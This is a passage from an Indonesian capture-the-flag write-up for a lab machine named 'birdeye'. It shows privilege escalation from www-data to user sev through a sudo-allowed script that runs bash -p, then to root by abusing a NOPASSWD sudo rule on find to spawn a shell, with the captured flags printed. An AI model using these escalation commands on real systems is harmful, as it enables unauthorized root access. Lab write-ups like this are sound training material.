 Script ini sangat sederhana - hanya menjalankan bash dengan flag `-p` (preserve privileges). Sempurna untuk privilege escalation!

**Escalating to sev:**

```bash
www-data@birdeye:~/birdeye/Server$ sudo -u sev /home/sev/backup_app.sh
sev@birdeye:~/birdeye/Server$ id
uid=1000(sev) gid=1000(sev) groups=1000(sev),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),112(lpadmin),113(sambashare),999(vboxsf)
```

**Berhasil!** Sekarang kita adalah user `sev`.

**User Flag:**

```bash
sev@birdeye:~$ cat /home/sev/user.txt
FLAG{wwwd4t4_t0_s3v_3sc4l4t10n}
```

### Escalation: sev → root

Memeriksa sudo privileges untuk user `sev`:

```bash
sev@birdeye:~$ sudo -l
User sev may run the following commands on birdeye:
    (ALL) NOPASSWD: /usr/bin/find
```

User `sev` dapat menjalankan command `find` sebagai root tanpa password. Ini adalah jalur klasik menuju root!

### Exploiting Find (GTFOBins)

Menggunakan teknik dari [GTFOBins](https://gtfobins.github.io/gtfobins/find/), kita dapat mengeksekusi shell melalui `find`:

```bash
sev@birdeye:~$ sudo find . -exec /bin/sh \; -quit
# id
uid=0(root) gid=0(root) groups=0(root)
```

**ROOT ACCESS ACHIEVED!** 🎉

**Root Flag:**

```bash
# cat /root/root.txt
FLAG{5ev1l_r00t_4cc3ss_4ch13v3d}
```

---

## Summary
